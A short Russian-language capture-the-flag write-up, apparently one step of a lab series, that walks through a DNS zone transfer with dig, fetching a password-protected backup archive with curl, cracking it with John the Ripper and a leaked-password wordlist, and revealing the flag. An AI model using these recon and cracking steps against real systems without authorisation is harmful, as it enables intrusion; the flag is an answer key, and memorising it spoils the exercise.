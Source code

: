 # Сервер имен
Изучая хост из [машинного обучения]() в /etc/hosts находим домен `ml.deteact`.

На машине 172.34.0.4 выполняем запрос к серверу имен:
```shell
dig axfr @10.1.0.4 deteact
```
Он показывает поддомен `backups1.deteact`.

Обращаемся к 10.1.0.3 с этим поддоменом. Ответ содержит страницу со ссылкой на архив `backup-130721.zip`.
```
curl -O http://10.1.0.3/backup-130721.zip -H 'Host: backups1.deteact'
```
Архив защищен паролем. Пробуем подобрать пароль:
```shell
john backup-130721.hash -w $W/Passwords/Leaked-Databases/rockyou-55.txt
```
Пароль от архива - `trustme`. Извлекаем flag.txt из архива.

Флаг - flag{e18f5054a81e5cd7c99dd79e2fcd8173}